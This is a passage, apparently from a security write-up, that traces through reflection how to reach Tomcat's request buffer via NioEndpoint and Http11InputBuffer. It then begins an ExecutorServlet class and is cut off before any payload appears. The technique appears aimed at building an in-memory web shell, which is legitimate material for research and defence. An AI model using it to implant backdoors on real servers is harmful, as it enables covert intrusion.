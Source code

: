 ​ Use this tool to find an appReadBufHandler for `nioChannels` located in `NioEndpoint`, where the `Buffer` stores the required `request` (utilization point is not unique).

![](img/7.png)

​ Get the value of `Buffer` through layered reflections:

```java
TargetObject = {org.apache.tomcat.util.threads.TaskThread}
   ---> group = {java.lang.ThreadGroup}
    ---> threads = {class [Ljava.lang.Thread;}
     ---> [14] = {java.lang.Thread}
       ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller}
        ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint}
         ---> nioChannels = {org.apache.tomcat.util.collections.SynchronizedStack}
          ---> stack = {class [Ljava.lang.Object;}
           ---> [0] = {org.apache.tomcat.util.net.NioChannel}
            ---> appReadBufHandler = {org.apache.coyote.http11.Http11InputBuffer}
              ---> request = {org.apache.coyote.Request}
```

```java
package servlet;

import org.apache.coyote.http11.Http11InputBuffer;
import org.apache.tomcat.util.collections.SynchronizedStack;
import org.apache.tomcat.util.net.NioEndpoint;

import javax.servlet.ServletConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@WebServlet(name = "ExecutorServlet", value = "/ExecutorServlet")
public class ExecutorServlet extends HelloServlet {
    @Override
```